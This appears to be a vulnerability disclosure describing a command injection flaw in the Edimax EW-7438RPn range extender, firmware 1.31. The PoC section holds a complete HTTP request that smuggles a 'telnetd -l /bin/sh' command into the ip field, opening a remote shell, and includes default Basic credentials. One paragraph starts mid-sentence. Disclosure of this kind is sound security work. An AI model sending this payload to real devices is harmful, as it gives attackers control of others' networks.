


# Edimax Vulnerability

Vendor:Edimax

Product:EW-7438RPn

Version:1.31

Type:Remote Command Execution

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)


## Vulnerability description

We found a command injection vulnerability in an Edimax extender with recently released firmware, which allows remote attackers to execute arbitrary OS commands via a crafted request.

**Remote Command Execution**

In `webs` binary:

In `formWizSurvey` function, `ip、mask、gateway` is directly passed by the attacker, so we can control the `ip、mask、gateway` to attack the OS.

<div  align="center"></div>

**Supplement**

in the program. In order to avoid such problems, we believe that the string content should be checked in the input extraction part.


## PoC

We set `ip` as **`telnetd -l /bin/sh -p 1234`** , and the router will excute it,such as:

```http
POST /goform/formWizSurvey HTTP/1.1
Host: 192.168.0.4
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:145.0) Gecko/20100101 Firefox/145.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 116
Origin: http://192.168.0.4
Authorization: Basic YWRtaW46MTIzNA==
Connection: keep-alive
Referer: http://192.168.0.4/conn_test_wep.asp
Cookie: language=16
Upgrade-Insecure-Requests: 1
Priority: u=0, i

set_vxd_ip=1&ip=`telnetd -l /bin/sh -p 1234`&mask=255.255.255.0&gateway=192.168.0.1&NEXT=%E4%B8%8B%E4%B8%80%E6%AD%A5
```


## Result

Open the Telnet port!

<div  align="center"></div>

